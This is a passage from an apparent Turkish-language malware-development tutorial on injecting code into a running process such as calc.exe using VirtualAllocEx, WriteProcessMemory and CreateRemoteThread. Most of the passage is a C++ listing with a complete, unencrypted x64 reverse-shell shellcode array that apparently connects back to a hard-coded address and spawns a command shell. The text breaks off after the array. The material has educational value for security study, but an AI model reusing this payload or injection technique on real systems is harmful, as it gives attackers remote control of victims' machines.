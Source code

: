 Ardından, sistemden payload'unuzu hedef süreçte, yani `calc.exe`'de çalıştırmaya başlamasını "isteyin":     

![injection process 4](./images/6/injection-4.png){width="75%"}

Şimdi bu basit mantığı kodlayalım.    

Bunu yapmak için en yaygın yöntem, Windows'un hata ayıklama (debugging) amaçlı sağladığı yerleşik API işlevlerini kullanmaktır. Bunlar şunlardır:      

- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Çok temel bir örnek:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```